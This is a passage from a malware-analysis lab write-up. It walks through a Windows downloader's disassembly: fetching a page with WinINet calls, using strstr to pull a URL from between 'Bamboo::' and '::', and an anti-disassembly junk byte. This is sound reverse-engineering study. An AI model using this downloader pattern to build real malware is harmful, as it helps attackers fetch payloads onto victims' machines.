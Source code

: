                 result = 0;
            }
            ...
        }
        ...
    }
    ```
    * We initialize the internet by `InternetOpenA` and open an URL by `InternetOpenUrlA`, then we download the data to local buffer by `InternetReadFile`.
        * Note that, refer to [Microsoft Document](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile). It'll store the data from open URL to `&Buffer`.
            > Reads data from a handle opened by the `InternetOpenUrl`, `FtpOpenFile`, or `HttpOpenRequest` function.

            > BOOL InternetReadFile(
              [in]  HINTERNET hFile,
              [out] LPVOID    lpBuffer,
              [in]  DWORD     dwNumberOfBytesToRead,
              [out] LPDWORD   lpdwNumberOfBytesRead
            );

            > [out] lpBuffer
                Pointer to a buffer that receives the data.

    * Then, we use `strstr` function(refer to [this page](https://www.runoob.com/cprogramming/c-function-strstr.html)) in **line <font color="FF0000">`15`</font>** to find the **first** `SubStr` in `&Buffer` and return the position of `SubStr` if it exist, otherwise, return `null`.
    What is variable of `SubStr`? → `Bamboo::`
    `.data:00403030 42 61 6D 62 6F 6F+SubStr          db 'Bamboo::',0`

    ---

* Because `IDA` can not show the following disassembly code, we just check out the source code instead. Refer to [the write up on CSDN](https://blog.csdn.net/yalecaltech/article/details/117385992).
    * The following code is aim to search the string `::` by using `strstr` function. In addition, in **line <font color="FF0000">`.text:00401212`</font>**, it move `0` to `ptr [eax]`. That means put `0` to the first `:` in `::`. It was used to terminate the string between `Bamboo::` and `::`.
    * In **line <font color="FF0000">`.text:0040123E`</font>**, `ecx+8` means `Str+8` and that aim to jump over the string `Bamboo::` whose length is also `8`.
    * Then, use `InternetOpenUrlA` in **line <font color="FF0000">`.text:0040125D`</font>** to open URL
    
        ```assembly
        .text:004011FD                 push    offset asc_40303C ; "::"
        .text:00401202                 mov     eax, [ebp+Str]
        .text:00401208                 push    eax             ; Str
        .text:00401209                 call    ds:strstr
        .text:0040120F                 add     esp, 8
        .text:00401212                 mov     byte ptr [eax], 0
        .text:00401212 ; -------------------------------
        .text:00401215 byte_401215     db 0EBh
        .text:00401216 ; -------------------------------
        .text:00401216                 inc     eax
        .text:00401218                 dec     eax
        .text:00401219                 call    account_summary
        .text:0040121E                 mov     [ebp+Filename], eax
        .text:00401224                 push    0A00000h        ; Size
        .text:00401229                 call    ds:malloc
        .text:0040122F                 add     esp, 4
        .text:00401232                 mov     [ebp+lpBuffer], eax
        .text:00401238                 mov     ecx, [ebp+Str]
        .text:0040123E                 add     ecx, 8
        .text:00401241                 mov     [ebp+Str], ecx
        .text:00401247                 push    0               ; dwContext
        .text:00401249                 push    0               ; dwFlags
        .text:0040124B                 push    0               ; dwHeadersLength
        .text:0040124D                 push    0               ; lpszHeaders